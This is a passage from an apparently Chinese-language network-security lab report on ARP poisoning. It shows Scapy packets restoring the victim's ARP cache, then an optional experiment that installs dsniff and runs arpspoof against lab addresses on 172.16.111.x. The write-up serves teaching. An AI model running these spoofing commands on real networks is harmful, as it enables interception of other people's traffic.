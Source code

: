     >>> sendp(restorepkt1, count=100, inter=0.2)
    ....................................................................................................
    Sent 100 packets.
    ```
4. 在受害者主机查看`ARP`缓存

    ![恢复成功](./img/arp恢复.png)
### 实验三（可选）：使用自动化工具完成 `ARP` 投毒劫持实验
1. 在攻击者主机下载使用`arpspoof`自动化工具
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo apt-get install dsniff ssldump

    ┌──(kali㉿kali)-[~]
    └─$ sudo arpspoof                                                  
    #Version: 2.4
    #Usage: arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
                                                                  
    ┌──(kali㉿kali)-[~]
    └─$ sudo arpspoof -i eth0 -t 172.16.111.126 172.16.111.1  
    ```
2. 在受害者主机查看`arp`缓存，实验成功

    ![自动化工具成功](./img/arpspoof.png)